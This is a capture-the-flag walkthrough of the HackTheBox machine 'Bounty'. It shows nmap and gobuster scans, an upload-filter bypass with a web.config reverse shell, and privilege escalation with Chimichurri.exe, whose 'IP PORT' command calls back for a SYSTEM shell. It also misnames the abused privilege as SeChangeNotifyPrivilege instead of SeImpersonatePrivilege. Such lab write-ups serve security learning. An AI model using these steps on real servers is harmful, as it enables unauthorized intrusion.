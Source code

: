 ![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/864ae837-1aaa-4b5c-86d7-ee9486da8898)

first enumeration with nmap 

```
# Nmap 7.93 scan initiated Fri Jun  2 10:03:16 2023 as: nmap -sC -sV -T4 -oN normal.txt -p 80 -Pn 10.10.10.93
Nmap scan report for bounty.htb (10.10.10.93)
Host is up (0.19s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-title: Bounty
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Jun  2 10:03:30 2023 -- 1 IP address (1 host up) scanned in 14.22 seconds
```

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/94a5cd95-4184-4ec0-bc36-1074311df162)

opening the ip on a browser, got redirected to a page with a merlin picture. let's fuzz for directories 

```
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/HTB/Bounty]
└─$ gobuster dir -u http://10.10.10.93/ -w /usr/share/wordlists/dirb/common.txt -x aspx                
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.93/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              aspx
[+] Timeout:                 10s
===============================================================
2023/06/03 01:14:29 Starting gobuster in directory enumeration mode
===============================================================
/aspnet_client        (Status: 301) [Size: 156] [--> http://10.10.10.93/aspnet_client/]
/transfer.aspx        (Status: 200) [Size: 941]
/uploadedfiles        (Status: 301) [Size: 156] [--> http://10.10.10.93/uploadedfiles/]
Progress: 9219 / 9230 (99.88%)
===============================================================
2023/06/03 01:17:01 Finished
===============================================================
```

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/10e130bc-88dd-4632-ad01-19a39ae5cd86)

navigate to `transfer.aspx`, there is a file upload func there. tried to upload an aspx reverse shell file, got `Invalid File. Please try again` let's fuzz for the type of extention that is allowed.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/5a57146f-9732-4455-a269-98476212e59f)

cool we can see the allowed extensions. `.config,.doc...` let's look for a `.config` revshell payload we can create 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/7ea2f031-01d1-47a9-9867-93ede665367d)

cool we found one on github [web.config](https://github.com/d4t4s3c/Offensive-Reverse-Shell-Cheat-Sheet/blob/master/web.config), let's download the file. also we need an `Invoke-PowerShellTcp.ps1` file. fire up python http server along with ncat listener.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/c06b77fe-53c3-4377-aa07-333c7a590ef8)

upload the `web.config` file. let's locate this file.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/f612589f-fe1b-414e-a7c9-af2b23585144)

find the file and check back ncat listener.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/7b35e01a-04af-4301-85bd-6d7c959f3999)

Bull's eye we got a reverse shell.


## Privilege Escalation

```
PS C:\windows\system32\inetsrv> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
PS C:\windows\system32\inetsrv> 
```
checking privs, we can see we have `SeChangeNotifyPrivilege` enabled. let's abuse this. let's run `Chimichurri.exe`

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/96b7e3ec-b575-4f53-8e7b-19ffa02bec39)

running `chimichurri.exe IP PORT` got a reverse shell as `nt authority\system`.


### Using Juicy Potato

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/298b5adf-3fa4-45f7-8e99-ab5e1056afd3)

download [JuicyP](https://github.com/ohpe/juicy-potato/releases), [CLSID](https://ohpe.it/juicy-potato/CLSID/)


